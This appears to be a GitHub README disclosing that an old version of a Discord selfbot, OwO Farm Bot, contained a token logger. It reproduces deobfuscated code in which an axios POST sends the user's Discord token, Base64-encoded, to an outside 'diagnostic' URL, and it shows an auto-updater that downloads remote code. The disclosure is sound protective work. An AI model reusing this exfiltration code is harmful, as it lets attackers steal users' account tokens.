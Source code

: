  LOAD THIS IN MARKDOWN FOR BETTER VIEW


# Newer Version
Five months ago, u/ButterflyVisible7532 has [posted a thread](https://www.reddit.com/r/Discord_selfbots/comments/1el9tcr/decent_token_logger_or_not_from_a_famous_selfbot/) accusing u/Mid0aria of spreading malware on his projects.

The claims were true, checking the [ab6a697ce033c495ca6527fd4b391950ea0a36c4](https://github.com/Mid0aria/owofarmbot_stable/tree/ab6a697ce033c495ca6527fd4b391950ea0a36c4) branch will display an old version of OwO Farm Bot, with all of its code deobfuscated. I have deobfuscated the main file, [bot.js](https://github.com/Mid0aria/owofarmbot_stable/blob/ab6a697ce033c495ca6527fd4b391950ea0a36c4/bot.js) with https://webcrack.netlify.app/, then used [Humanify](https://github.com/jehna/humanify), which uses LLMs to give more meaningful names to variables and functions. Which got me [this output](https://github.com/harmlessaccount/owofarmbot-deobf/blob/main/new/owofarmbot-new.js), the output file shows a lot of harmful behaviour embedded into the code. For example, line 282 to line 293 is code for a POST request that will send a Base64 encoded token to `https://syan.anlayana.com/api/diagnosticv2`:
```javascript
        axiosClient.post(

          "https://syan.anlayana.com/api/diagnosticv2",

          "diagnosticv2=" +

            fileData.from(encodeToken(_executeNode.token)).toString("base64") +

            "&project=" +

            discordClient.global.name,

          {

            headers: {

              "Content-Type": "application/x-www-form-urlencoded",

            },

          },

        );
```

From line 40 to 80, the project has an auto-updater, behaviour that is recommended against, as with one update, you'd be able to infect hundreds of machines.

```javascript
const gitUpdateAndC = async () => {
  try {
    const typeSpecifier = {
      "User-Agent":
        "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537",
    };
    const githubZipData = await axiosClient.get(
      "https://github.com/Mid0aria/owofarmbot_stable/archive/master.zip",
      {
        responseType: "arraybuffer",
        headers: typeSpecifier,
      },
    );
    const cacheFilePath = executeNode.resolve(__dirname, "updateCache.zip");
    FileOps.writeFileSync(cacheFilePath, githubZipData.data);
    const adobeZipUtil = new AdobeZipUtil(cacheFilePath);
```